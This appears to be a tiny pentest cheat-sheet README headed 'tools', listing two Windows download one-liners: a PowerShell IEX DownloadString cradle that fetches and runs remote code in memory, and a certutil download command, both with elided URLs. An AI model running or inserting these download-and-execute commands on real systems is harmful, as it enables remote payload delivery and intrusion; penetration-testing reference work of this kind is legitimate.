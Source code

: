 # tools
Helpful pentest tools
IEX (New-Object Net.WebClient).DownloadString(‘http://...’)
certutil -urlcache -split -f "http://..."
